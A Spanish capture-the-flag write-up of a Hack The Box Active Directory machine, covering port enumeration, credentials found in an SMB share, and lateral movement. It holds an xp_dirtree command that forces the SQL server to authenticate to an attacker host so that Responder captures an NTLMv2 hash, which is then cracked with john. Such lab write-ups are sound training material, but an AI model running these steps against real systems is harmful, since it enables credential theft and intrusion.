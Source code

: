 #ActiveDirectory #medium #windows 
### Ping
```python
ping -c 1 10.10.11.202
PING 10.10.11.202 (10.10.11.202) 56(84) bytes of data.
64 bytes from 10.10.11.202: icmp_seq=1 ttl=127 time=150 ms

--- 10.10.11.202 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 149.915/149.915/149.915/0.000 ms
```

### TTL 127 = Windows

### nmap
```python
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-03-29 08:37:36Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
1433/tcp  open  ms-sql-s          Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-29T08:32:26
|_Not valid after:  2054-03-29T08:32:26
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49686/tcp open  msrpc             Microsoft Windows RPC
49725/tcp open  msrpc             Microsoft Windows RPC
51906/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h58m58s, deviation: 0s, median: 7h58m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-29T08:38:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.86 seconds
```

### Enumeración del puerto 53 (DOMAIN)
`dig` conseguimos una cookie que podría ser interesante
![[Pasted image 20240328204907.png]]

`dnsenum`
podemos ver lo que parece la ipv6 de la maquina
![[Pasted image 20240328205655.png]]

`Enumerating srv records`
tenemos un reconocimiento completo de kerberos y ldap lo que me hace pensar que podríamos intentar obtener un TGT mas adelante 
![[Pasted image 20240328205742.png]]

### Enumeración del puerto 88 (Kerberos)

![[Pasted image 20240328210931.png]]

### Enumeración del puerto 389 (ldap)
no obtenemos mucha información sobre el ldap
![[Pasted image 20240328214121.png]]

### Enumeración del puerto 445 (SBM)
tenemos archivos compartidos 
![[Pasted image 20240328214416.png]]

`smbmap`
smbmap nos permite ver los permisos que tenemos sobre los archivos compartidos
![[Pasted image 20240328214546.png]]

### smbmap
encontramos un directorio llamado public donde tenemos permisos de lectura y dentro tenemos un archivo pdf que podemos descargar 
![[Pasted image 20240328214912.png]]

`download`
descargamos el archivo pdf que se esta compartiendo
![[Pasted image 20240328220045.png]]

`open pdf`
el archivo pdf que conseguimos nos da información de varios usuarios y de como conectarnos a la base de datos mysql con las credenciales
![[Pasted image 20240328220348.png]]

### impacket-mssqlclient
usando `mssqlclient` de la suite de impacket podemos establecer conexión en la base de datos
![[Pasted image 20240328221851.png]]

### responder 
vamos a iniciar el responder para intentar obtener un hash. si intentamos listar los archivos y directorios en nuestra maquina y estos no existen la base de datos debería de darnos un hash
```python
EXEC MASTER.sys.xp_dirtree '\\10.10.10.10\test', 1, 1
```
![[Pasted image 20240328222914.png]]

### impacket-mssqlclient + responder
apuntamos a un recurso que no existe en nuestra maquina atacante por lo cual estaríamos envenenando la petición y de esta manera podeos capturar un hash NTLMv2. del usuario sql_svc
`NOTA: este ataque es parecido a un ataque SMB-Relay (SAMBA Relay)`
![[Pasted image 20240328224406.png]]

`john`
usaremos john para poder desencriptar este hash
![[Pasted image 20240328231411.png]]

### crackmapexec
validamos las credenciales por smb y por evil-winrm
![[Pasted image 20240328231824.png]]

### Evil-winrm
obtenemos conexión
![[Pasted image 20240328232054.png]]

### Lateral Movement

tenemos un usuario llamado Ryan.Cooper probablemente debemos hacer movimiento lateral para poder cambiar de usuario
![[Pasted image 20240328235037.png]]

`ERRORLOG.BAK` tenemos un archivo donde se guardan logs del sistema
![[Pasted image 20240328234834.png]]

`ERRORLOG.BAK`
parece que el usuario ryam cometió el error de poner su contraseña en el parámetro de usuario y esto ha quedado guardad en el archivo de logs
![[Pasted image 20240328234727.png]]

### crackmapexec
validamos las credenciales que hemos conseguido
![[Pasted image 20240328235716.png]]

### Lateral Movement (Usuario )
![[Pasted image 20240328235837.png]]
